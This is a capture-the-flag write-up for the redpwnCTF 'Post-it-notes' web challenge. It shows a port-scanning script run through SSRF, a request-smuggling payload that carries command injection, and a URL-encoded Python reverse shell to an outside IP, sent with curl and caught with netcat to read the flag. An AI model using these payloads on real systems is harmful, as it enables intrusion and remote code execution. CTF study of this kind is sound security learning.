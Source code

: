 # Post-it-notes

It looks like we can do request smuggling/SSRF on the check-links route.  First lets find which port the api server is running on via SSRF

```python
import requests

for port in range(50000, 51001):
    r = requests.post("http://2020.redpwnc.tf:31957/check-links", data = {
        'links': 'http://localhost:' + str(port)
    },  proxies={'http':'http://127.0.0.1:8080'})
    if ("true" in r.text):
        print("Port is " + str(port))
        break
```

And when we run it

```shell-session
╭─zoey@nomadic ~/sec/redpwnctf/post-it-notes 
╰─$ python find-api-server.py                           
Port is 50528
```

Now lets try the request smuggling so we can send a GET request to `/api/v1/notes/`.  The following request will still pass the regular expressions, while
allowing us to perform request smuggling.  We can test on our local server.

```
http://127.0.0.1

GET /api/v1/notes/?title=test HTTP/1.1

:50528/
```

Now let's compose something for the command injection.  We already know we have python so lets setup a reverse shell with it.  Our request now becomes

```
http://127.0.0.1

GET /api/v1/notes/?title='||python%20%2Dc%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket%2Esocket%28socket%2EAF%5FINET%2Csocket%2ESOCK%5FSTREAM%29%3Bs%2Econnect%28%28%22136%2E24%2E87%2E77%22%2C22473%29%29%3Bos%2Edup2%28s%2Efileno%28%29%2C0%29%3B%20os%2Edup2%28s%2Efileno%28%29%2C1%29%3B%20os%2Edup2%28s%2Efileno%28%29%2C2%29%3Bp%3Dsubprocess%2Ecall%28%5B%22%2Fbin%2Fsh%22%2C%22%2Di%22%5D%29%3B%27||echo+' HTTP/1.1

:50528/
```

Lets setup a netcat listener, then URL encode the payload and send it along

```
curl -i -s -k -X $'POST' \
    -H $'Host: 2020.redpwnc.tf:31957' -H $'User-Agent: python-requests/2.23.0' -H $'Accept-Encoding: gzip, deflate' -H $'Accept: */*' -H $'Connection: close' -H $'Content-Length: 653' -H $'Content-Type: application/x-www-form-urlencoded' \
    --data-binary $'links=http%3A%2F%2F127%2E0%2E0%2E1%0A%0AGET%20%2Fapi%2Fv1%2Fnotes%2F%3Ftitle%3D%27%7C%7Cpython%2520%252Dc%2520%2527import%2520socket%252Csubprocess%252Cos%253Bs%253Dsocket%252Esocket%2528socket%252EAF%255FINET%252Csocket%252ESOCK%255FSTREAM%2529%253Bs%252Econnect%2528%2528%2522136%252E24%252E87%252E77%2522%252C22473%2529%2529%253Bos%252Edup2%2528s%252Efileno%2528%2529%252C0%2529%253B%2520os%252Edup2%2528s%252Efileno%2528%2529%252C1%2529%253B%2520os%252Edup2%2528s%252Efileno%2528%2529%252C2%2529%253Bp%253Dsubprocess%252Ecall%2528%255B%2522%252Fbin%252Fsh%2522%252C%2522%252Di%2522%255D%2529%253B%2527%7C%7Cecho%2B%27%20HTTP%2F1%2E1%0A%0A%3A50528%2F' \
    $'http://2020.redpwnc.tf:31957/check-links'
```

And on our listener:

```shell-session
╭─zoey@nomadic ~/sec/redpwnctf/panda-facts 
╰─$ nc -lvp 22473
listening on [any] 22473 ...
connect to [192.168.100.224] from 250.191.75.34.bc.googleusercontent.com [34.75.191.250] 593
66
/bin/sh: 0: can't access tty; job control turned off
$ ls
api
flag.txt
main.py
notes
notes.py
web
$ cat flag.txt
flag{y0u_b3tt3r_n0t_m@k3_m3_l0s3_my_pyth0n_d3v_j0b}
```